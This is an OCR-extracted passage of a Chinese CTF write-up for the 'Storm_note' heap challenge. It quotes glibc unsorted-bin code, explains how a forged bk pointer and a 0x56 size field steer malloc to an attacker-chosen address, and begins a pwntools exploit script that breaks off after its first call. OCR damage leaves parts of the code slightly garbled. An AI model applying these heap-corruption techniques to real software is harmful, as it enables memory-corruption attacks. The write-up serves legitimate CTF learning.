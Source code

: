 /* remove from unsorted list */

if(__glibc_unlikely (bck->fd != victim))

malloc_printerr ( "malloc(): corrupted unsorted chunks 3");

unsorted_chunks (av)->bk = bck;

bck->fd = unsorted_chunks (av);

因为我们构造的该0x620大小的chunk的bk指针为是0x00000000abcd00e0，所以该chunk脱链之后main_area中的bk指向就变成了0x00000000abcd00e0。而后在链入large chunk的过程中，又将0x00000000abcd00e0处的chunk的size，fd，bk等值都构造好了，所以unsort bin继续按bk遍历后就到了我们构造好的0x00000000abcd00e0处了，该chunk为0x56大小，刚好符合我们的要求，所以便取出。这里为什么不能为0x55？因为该部分位于mmap区域，需要使得size字段的IS_MAPPED，即第二个比特位为1，而0x55低三位为101，不能满足，代码中这样限制：

assert (!mem ||chunk_is_mmapped (mem2chunk (mem)) ||

av == arena_for_chunk (mem2chunk (mem)));

所以需要为0x56才能满足。

根据先脱离unsort bin的操作，再根据插入large bin的操作，就可以明白上面发生链表操作之后两个chunk所发生的变化了。

EXP：

frompwn import*

p = process( './Storm_note')

#p = remote('ctf1.linkedbyx.com',10476)

elf = ELF( './Storm_note')

libc = ELF( './libc-2.23.so')

#max_fast =

defcreate(size):

p.sendlineafter( 'Choice: ', '1')

p.sendlineafter( 'size ?n',str(size))

defedit(index,content):

p.sendlineafter( 'Choice: ', '2')

p.sendlineafter( 'Index ?n',str(index))

p.sendafter( 'Content: n',content)

defdelete(index):

p.sendlineafter( 'Choice: ', '3')

p.sendlineafter( 'Index ?n',str(index))

defgetshell():

p.sendlineafter( 'Choice: ', '666')

p.sendlineafter( 'If you can open the lock, I will let you in', 'A'* 0x30)

create( 0x28) #0
